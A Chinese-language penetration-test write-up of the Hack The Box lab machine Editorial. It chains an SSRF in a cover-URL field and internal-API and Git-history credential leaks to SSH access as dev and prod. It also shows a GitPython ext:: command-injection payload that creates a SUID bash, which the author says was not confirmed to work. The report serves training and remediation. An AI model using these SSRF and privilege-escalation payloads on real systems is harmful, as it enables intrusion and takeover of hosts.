


Editorial | Web & Linux Penetration Testing Report
作者：Jeff
平台：Hack The Box
目標：Editorial，10.129.22.118
網站：editorial.htb
系統辨識：Ubuntu Linux，依 SSH 與 HTTP 服務指紋判讀
測試性質：平台實驗靶機練習
成果狀態：已成功驗證 SSRF、內部 API 資訊外洩、dev 與 prod 帳號存取，並完成 GitPython 高權限腳本的安全性分析與利用測試。最終 Root 權限未取得足夠證據確認。
01 Executive Summary 執行摘要
本次針對 Editorial 實驗靶機進行滲透測試，分析外部 Web 功能如何串連至本機帳號存取與高權限執行風險。主要問題為封面預覽功能接受伺服器本機 URL、內部 API 與 Git 歷史包含有效憑證，以及 root 執行的複製儲存庫腳本接受不受信任的 URL。
測試者從 /upload-cover 的 bookurl 參數切入，枚舉伺服器 loopback 連接埠，辨識 127.0.0.1:5000 的內部 API。後端將回應存入 static/uploads，測試者讀取該檔案後取得 API 路徑與 dev 憑證，成功以 SSH 登入。
登入後，在 dev 家目錄的 apps/.git 中檢查歷史提交，取得先前寫入程式碼的 prod 密碼並成功登入 prod。sudo -l 顯示 prod 獲准以 root 執行 clone_prod_change.py，腳本將第一個參數傳入 GitPython，並明確允許 Git ext 協定。此設定形成高權限命令執行的危險條件。
原始筆記保留了 ext:: 利用嘗試與 /tmp/rootbash -p 指令，但未附 SUID 檔案權限或 root 身分輸出。報告將其列為提權嘗試，不將 Git clone 的錯誤或單獨一行指令當作 root 成功證據。
02 Scope & Methodology 測試範圍與方法
範圍限定於 10.129.22.118、editorial.htb，以及透過目標應用接觸到的本機服務。起始條件為沒有系統憑證。流程為服務辨識、封面 URL 請求分析、SSRF 驗證、內部 API 資料讀取、SSH 登入、Git 歷史檢查與 sudo 腳本分析。
| 工具 | 目的 |
|---|---|
| Nmap | 連接埠與服務指紋辨識 |
| Burp Suite | 檢查 /upload-cover 請求、修改 bookurl |
| ffuf | 依回應差異枚舉 loopback 連接埠 |
| curl、jq | 讀取後端保存的 API 回應並解析 JSON |
| SSH、id、whoami | 驗證取得的帳號與登入身分 |
| Git | 檢查提交歷史與含憑證的差異 |
| sudo、Python | 檢查高權限腳本與 GitPython 設定 |
本報告依測試期間保留的操作紀錄整理，未重新執行測試。所有風險與驗證成果均依現有證據判讀，未確認的結果不列為成功利用。密碼以 [REDACTED] 代替。
03 Attack Path Overview 攻擊路徑總覽
- 封面預覽功能的 bookurl 觸發 SSRF
- 讀取 127.0.0.1:5000 內部 API
- 取得 dev 憑證，SSH 登入成功
- 從 Git 歷史取得 prod 憑證，SSH 登入成功
- 檢查 sudo 授權與 root 執行的 clone 腳本
- 分析 GitPython ext 協定並進行利用測試
F-01 讓外部請求接觸本機服務，F-02 提供初始系統帳號，F-03 擴展至具有 sudo 授權的 prod。F-04 呈現高權限腳本的利用測試。最終 Root 權限未取得足夠證據確認，未列為攻擊成果。
04 Enumeration 資訊蒐集與分析
4.1 服務辨識
nmap -p- --min-rate 1000 10.129.22.118
nmap -sCV -p 22,80 10.129.22.118輸出顯示 22/tcp 為 OpenSSH 8.9p1 Ubuntu，80/tcp 為 nginx 1.18.0，HTTP 導向 editorial.htb。223/tcp 標為 filtered，不能列為已確認開放服務。
網站提供投稿與封面預覽，封面來源包含 URL 欄位與檔案欄位。測試者選擇 URL 欄位檢查伺服器端請求行為，未將檔案上傳功能直接認定為任意程式執行。


圖 4-1：原始封面 URL 與 Preview 介面。
4.2 回應差異與內部服務辨識
Burp 截圖中，bookurl 分別指向 127.0.0.1:80 與無效連接埠，兩者均回傳預設圖片路徑，回應時間不同。時間差提供調查方向，單靠時間差不足以確認 SSRF。


圖 4-2：指向 127.0.0.1:80 的請求與預設圖片回應。此圖呈現測試位置，成功讀取內部內容的證據見第五章文字紀錄。
測試者將原始 multipart 請求中的 bookurl 改為 http://127.0.0.1:FUZZ，以 ffuf 枚舉 1 至 10000。request.txt 為原始 HTTP 請求檔案，不是直接掃描攻擊機本身的 loopback。
seq 1 10000 > ports.txt
ffuf -request request.txt -request-proto http -w ports.txt -acE-01 原始結果摘錄：
5000 [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 232ms]5000 的回應提供 static/uploads 路徑。測試者進一步下載該路徑，讀到內部 API JSON，才確認回應來自後端存取的內部服務，而非僅依 HTTP 200 判定成功。
05 Findings & Exploitation 漏洞發現、利用證據與基本修補方向
F-01 封面 URL 造成 SSRF 與內部 API 回應外洩
風險：高。
受影響項目：POST /upload-cover 的 bookurl。
前提：外部請求可提交封面 URL，後端接受 loopback 目的地。
測試將 bookurl 指向 http://127.0.0.1:5000，後端回傳：
HTTP/1.1 200 OK
Content-Length: 51
static/uploads/edbde4b8-1cad-4af1-9210-b9fd84604135接著讀取後端保存的回應。以下為原始 curl 與 JSON 的節錄，省略未影響判讀的項目：
curl http://editorial.htb/static/uploads/dce88907-d34d-4546-8cef-20a27d8dac7b -s | jq .{
"messages": [
{
"new_authors": {
"description": "Retrieve the welcome message sended to our new authors.",
"endpoint": "/api/latest/metadata/messages/authors",
"methods": "GET"
}
}
]
}E-02：內部 API 目錄 JSON 與 static/uploads 讀取結果。原始紀錄中的兩次請求產生不同檔案識別碼，報告保留原值，未將兩者拼成同一次 HTTP 交易。
影響：外部訪客透過應用接觸伺服器本機 HTTP 服務，並讀取其內容。此為有回應內容的 SSRF，內部 API 的憑證問題另列 F-02。
F-02 內部 API 回傳有效的 dev 明文憑證
風險：高。
受影響項目：/api/latest/metadata/messages/authors。
前提：透過 F-01 接觸內部 API。
測試者將 bookurl 改為：
http://127.0.0.1:5000/api/latest/metadata/messages/authors後端回傳 static/uploads/8bb8b2c1-1fe1-4ac4-aff1-5e43120e36c4。讀取該檔案後，template_mail_message 包含：
Your login credentials for our internal forum and authors site are:
Username: dev
Password: [REDACTED]原筆記記載 SSH 登入成功，並保留登入後的身分輸出：
dev@editorial:~$ id
uid=1001(dev) gid=1001(dev) groups=1001(dev)
dev@editorial:~$ whoami
dev
dev@editorial:~$ sudo -l
Sorry, user dev may not run sudo on editorial.E-03：API 憑證回應與 dev 的 id、whoami 結果。
影響：API 中原本聲稱供內部論壇與作者網站登入的密碼，也獲主機 SSH 接受，讓 Web 資料外洩延伸至系統存取。dev 未獲 sudo 授權，不能將初始登入視為管理員權限。
F-03 Git 提交歷史保留有效的 prod 憑證
風險：高。
受影響項目：/home/dev/apps/.git 與 app_api/app.py 的提交歷史。
前提：已取得 dev 帳號，且該帳號可讀取本機儲存庫。
dev 家目錄的 apps 下保留 .git，測試者檢查提交歷史：
git log --oneline
git show b73481bE-04 原始歷史摘錄：
8ad0f31 fix: bugfix in api port endpoint
dfef9f2 change: remove debug and update api port
b73481b change(api): downgrading prod to dev
1e84a03 feat: create api to editorial info
3251ec9 feat: create editorial appb73481b 的 diff 顯示寄信模板從 prod 改為 dev，刪除行仍保留先前的 prod 帳密。遮罩後的內容摘要：
Removed template credentials:
Username: prod
Password: [REDACTED]
Replacement template credentials:
Username: dev
Password: [REDACTED]取得 prod 密碼後，原筆記記載再次 SSH 登入成功，身分結果為：
prod@editorial:/tmp$ id
uid=1000(prod) gid=1000(prod) groups=1000(prod)
prod@editorial:/tmp$ whoami
prod影響：即使現行程式已換掉帳號，Git 歷史仍保有有效的舊憑證，導致從 dev 切換至具有 sudo 權限的 prod。
判讀邊界：此處是登入後讀取本機 .git，未驗證網站對外暴露 /.git。原始 Git diff 截圖含明文密碼，本版採遮罩文字，未搬入該圖。
F-04 root 複製腳本接受外部 URL 並啟用 Git ext 協定
風險：嚴重，依 sudo 授權、可控 URL 與 protocol.ext.allow=always 的組合評估。此評級描述設定形成的風險，不代表已驗證 Root Shell。
受影響項目：sudo 規則、/opt/internal_apps/clone_changes/clone_prod_change.py。
前提：已取得 prod 身分，具指定腳本的 sudo 授權。
E-05 原始 sudo 輸出：
User prod may run the following commands on editorial:
(root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *腳本內容：
#!/usr/bin/python3
import os
import sys
from git import Repo
os.chdir('/opt/internal_apps/clone_changes')
url_to_clone = sys.argv[1]
r = Repo.init('', bare=True)
r.clone_from(
url_to_clone,
'new_changes',
multi_options=["-c protocol.ext.allow=always"]
)版本查詢回傳 GitPython 3.1.29：
python3 -c "import git; print(git.__version__)"測試者將 ext:: URL 傳入以 root 執行的腳本，目標是透過 shell 建立 /tmp/rootbash，再以 -p 保留有效身分。原始嘗試如下，並非經本報告重新驗證的成功指令：
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cp${IFS}/bin/bash${IFS}/tmp/rootbash;chmod${IFS}+s${IFS}/tmp/rootbash'
/tmp/rootbash -p原始執行結果摘錄：
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
fatal: Could not read from remote repository.E-06：ext:: 利用嘗試、Git clone 錯誤與後續 /tmp/rootbash -p 指令。
判讀：腳本接受呼叫者提供的 URL，明確允許 ext 協定，並在 sudo 的 root 權限下呼叫 Git，形成外部輸入進入高權限命令執行流程的風險。版本號是已記錄資訊，本報告未僅憑版本指定 CVE 編號。
證據邊界：Git clone 錯誤不等同於完全沒有副作用，也不代表利用成功。現有筆記缺少 /tmp/rootbash 的擁有者、SUID 權限及執行後的 id 或 whoami，故未確認 root Shell 或 root.txt 讀取。原筆記對指令的概念解釋，不取代成功輸出。
5.5 基本修補方向
| Finding ID | 弱點原因 | 建議修補方向 |
|---|---|---|
| F-01 | 後端接受 loopback URL，並保存非圖片的內部回應 | 限制目的地主機與協定，阻擋本機及內網目的地，驗證重新導向與回應內容 |
| F-02 | 內部 API 模板包含有效密碼，憑證也獲 SSH 接受 | 移除模板中的密碼、輪替外洩憑證，分離應用與系統登入憑證 |
| F-03 | Git 歷史保留仍有效的帳密 | 輪替 prod 憑證，清理受控歷史與副本，加入提交前秘密掃描 |
| F-04 | root 腳本接受任意 URL 並啟用 ext 協定 | 移除非必要 sudo 授權，以低權限帳號執行，停用 ext 並限制儲存庫來源 |
以上為基本修補方向，未宣稱完成企業修復或驗收。移除現行程式中的密碼不會自動清除 Git 歷史，也不會讓已外洩憑證失效。
證據狀態：E-01 至 E-06 保留原始操作紀錄與相關執行結果，並附封面介面及 Burp 請求原始截圖。F-04 的 root 最終身分尚未由現有紀錄確認。公開內容遮罩密碼，不公開 Flag。
06 Risk Assessment 風險評估
| Finding ID | 風險等級 | 已驗證影響或證據界線 | 修補優先順序 |
|---|---|---|---|
| F-01 | 高 | 外部請求讀取 127.0.0.1:5000 的 API 內容 | P1，阻斷內部請求 |
| F-02 | 高 | dev 明文憑證外洩，SSH 登入成功 | P1，輪替憑證 |
| F-03 | 高 | 歷史 prod 憑證仍有效，取得 prod 帳號 | P1，處理歷史秘密 |
| F-04 | 嚴重 | 確認 root 腳本與 ext 協定設定，已記錄利用嘗試，root 成果未確認 | P1，縮減高權限執行面 |
整體風險評為嚴重，依據為外部 Web 輸入串連至有效系統憑證與高權限腳本的攻擊條件。已確認 dev 與 prod 存取，root 層級影響以設定風險呈現，未當作已驗證結果。未測試服務中斷，亦未計算正式 CVSS 分數。